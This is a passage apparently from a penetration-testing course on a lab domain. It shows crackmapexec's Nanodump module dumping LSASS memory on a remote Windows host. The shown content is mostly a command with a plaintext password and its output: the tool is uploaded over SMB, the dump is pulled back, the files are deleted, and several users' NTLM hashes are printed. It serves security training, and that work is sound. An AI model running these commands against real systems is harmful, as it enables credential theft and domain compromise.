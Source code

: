 ```shell-session
HANDLEKA... 10.129.204.133  445    MS01             INLANEFREIGHT\john:c4b0e1b10c7ce2c4723b4e2407ef81a2
```

### **Nanodump Module**

4. [Nanodump](https://github.com/helpsystems/nanodump) is a flexible tool that creates a minidump of the LSASS process. As opening a handle to LSASS can be detected, Nanodump can search for existing handles to LSASS. If one is found, it will copy it and use it to create the minidump. Note that it is not guaranteed to find such a handle.

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M nanodump

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
NANODUMP    10.129.204.133  445    MS01             [*] 64-bit Windows detected.
NANODUMP    10.129.204.133  445    MS01             [+] Created file nano.exe on the \\C$\Windows\Temp\
NANODUMP    10.129.204.133  445    MS01             [*] Getting lsass PID tasklist /v /fo csv | findstr /i "lsass"
NANODUMP    10.129.204.133  445    MS01             [*] Executing command C:\Windows\Temp\nano.exe --pid 632 --write C:\Windows\Temp\20221108_1148.log
NANODUMP    10.129.204.133  445    MS01             [+] Process lsass.exe was successfully dumped
NANODUMP    10.129.204.133  445    MS01             [*] Copying 20221108_1148.log to host
NANODUMP    10.129.204.133  445    MS01             [+] Dumpfile of lsass.exe was transferred to /tmp/cme/MS01_64_inlanefreight.htb.log
NANODUMP    10.129.204.133  445    MS01             [+] Deleted nano file on the C$ share
NANODUMP    10.129.204.133  445    MS01             [+] Deleted lsass.dmp file on the C$ share
NANODUMP    10.129.204.133  445    MS01             INLANEFREIGHT\david:c39f2beb3d2ec06a62cb887fb391dee0
NANODUMP    10.129.204.133  445    MS01             INLANEFREIGHT\julio:64f12cddaa88057e06a81b54e73b949b
NANODUMP    10.129.204.133  445    MS01             INLANEFREIGHT\john:c4b0e1b10c7ce2c4723b4e2407ef81a2
```
